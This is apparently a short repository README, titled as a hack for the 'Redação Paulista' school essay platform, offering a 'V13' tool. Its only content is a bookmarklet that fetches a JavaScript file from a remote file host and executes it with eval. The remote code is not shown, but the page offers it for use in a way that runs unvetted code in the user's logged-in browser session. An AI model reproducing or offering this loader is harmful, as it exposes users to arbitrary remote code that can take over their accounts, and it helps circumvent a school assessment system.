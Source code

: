 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V13
- ta indo
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1748786029/redacaov13.js").then(t=>t.text()).then(eval);
```
